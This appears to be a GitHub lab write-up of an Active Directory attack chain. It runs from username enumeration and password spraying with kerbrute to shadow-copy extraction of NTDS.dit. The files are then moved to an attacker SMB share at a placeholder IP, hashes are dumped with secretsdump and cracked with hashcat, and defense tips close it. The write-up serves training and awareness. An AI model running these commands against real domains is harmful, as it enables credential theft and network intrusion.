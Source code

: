 # 🧪 Active Directory Credential Dumping Lab (NTDS.dit)

This lab demonstrates how adversaries can extract and crack credentials from a compromised Windows Active Directory environment using post-exploitation techniques. This simulation was performed in a controlled lab for educational and awareness purposes only.

---

## 🎯 Objective

* Enumerate users from public sources
* Attempt password spraying to gain access
* Dump `NTDS.dit` and `SYSTEM` hive from domain controller
* Crack NTLM hashes offline using `hashcat`

---

## 🧰 Tools Used

| Tool                   | Purpose                                   |
| ---------------------- | ----------------------------------------- |
| `username-anarchy`     | Generate likely usernames                 |
| `kerbrute`             | Username enumeration & password spray     |
| `evil-winrm`           | Remote PowerShell shell over WinRM        |
| `vssadmin`             | Create Volume Shadow Copy                 |
| `impacket-secretsdump` | Dump NT hashes from `NTDS.dit` + `SYSTEM` |
| `hashcat`              | Offline NTLM hash cracking                |
| `smbserver.py`         | Host SMB share to receive extracted files |

---

## 🧪 Lab Steps

### 1. Username Generation

```bash
cat << EOF > username.txt
John Marston
Carol Johnson
Jennifer Stapleton
EOF

./username-anarchy "Jennifer Stapleton" >> username.txt
```

### 2. Username Enumeration with Kerbrute

```bash
./kerbrute userenum -d ILF.local --dc <DC-IP> username.txt
```

### 3. Password Brute Force Attempt

```bash
./kerbrute bruteuser -d ILF.local --dc <DC-IP> /usr/share/wordlists/fasttrack.txt jstapleton
```

### 4. Gaining Remote Access (If Credentials Found)

```bash
evil-winrm -i <DC-IP> -u jmarston -p 'P@ssword!'
```

### 5. Shadow Copy & Extract NTDS.dit & SYSTEM

```powershell
vssadmin CREATE SHADOW /For=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit .
reg.exe save hklm\SYSTEM SYSTEM
```

### 6. Transfer Files to Attack Host

```powershell
move NTDS.dit \\<Attacker-IP>\NTDS
move SYSTEM \\<Attacker-IP>\NTDS
```

### 7. Start SMB Server (On Attacker)

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support NTDS /home/user/NTDS
```

### 8. Dump Hashes with Impacket

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

📦 **Sample (mocked) output:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
```

### 9. Crack NTLM Hash with Hashcat

```bash
hashcat -m 1000 '92fd67fd2f49d0e83744aa82363f021b' /usr/share/wordlists/rockyou.txt
hashcat -m 1000 '92fd67fd2f49d0e83744aa82363f021b' --show
```

✅ **Cracked Password:** `Summer2024!`

---

## 🛡️ Defense Recommendations

* Enforce strong passwords and MFA
* Disable unnecessary WinRM access
* Monitor for brute force attempts (Event ID 4625/4771)
* Restrict access to `NTDS.dit` and disable unnecessary Volume Shadow Copy usage

---

> ⚠️ **Note:** All testing was conducted ethically in a lab environment (Hack The Box) for training purposes.

---

## 🔗 Related

* [Kerbrute](https://github.com/ropnop/kerbrute)
* [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
* [Impacket](https://github.com/fortra/impacket)
* [Hashcat](https://hashcat.net/hashcat/)

